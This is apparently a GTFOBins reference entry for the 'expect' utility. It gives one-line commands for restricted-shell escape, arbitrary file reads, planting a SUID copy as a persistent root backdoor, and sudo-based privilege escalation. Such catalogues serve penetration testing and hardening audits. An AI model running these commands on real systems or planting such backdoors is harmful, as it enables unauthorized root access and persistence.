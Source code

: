 # GTFOBin: expect

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
expect -c 'spawn /bin/sh;interact'
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The file is read and parsed as an `expect` command file, the content of the first invalid line is returned in an error message. Thus, this might not be suitable to read arbitrary binary files.

```
LFILE=file_to_read
expect $LFILE
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which expect) .

./expect -c 'spawn /bin/sh -p;interact'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo expect -c 'spawn /bin/sh;interact'
```